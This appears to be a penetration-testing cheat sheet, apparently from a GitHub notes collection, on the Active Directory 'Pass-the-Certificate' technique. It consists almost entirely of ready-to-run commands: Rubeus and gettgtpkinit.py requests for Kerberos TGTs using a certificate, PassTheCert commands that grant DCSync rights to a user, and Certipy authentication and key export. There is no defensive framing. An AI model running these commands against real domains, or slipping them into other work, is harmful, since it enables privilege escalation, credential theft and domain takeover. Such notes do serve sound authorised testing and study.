 # Pass-the-Certificate

### Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

## Windows

#### 1) Information about a cert file

 - certutil -v -dump admin.pfx

#### 2) From a base64 PFX

 - Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASS"

#### 3) Grant DCSync rights to a user

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --dcsync

#### 4) To restore

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --restore

## Linux

#### 1) Base64-encoded PFX certificate (string) (password can be set)

 - gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME"

#### 2) PEM certificate (file) + PEM private key (file)

 - gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME"

#### 3) PFX certificate (file) + password (string, optionnal)

 - gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME"

#### 4) Using Certipy

 - certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'

 - certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.txt"

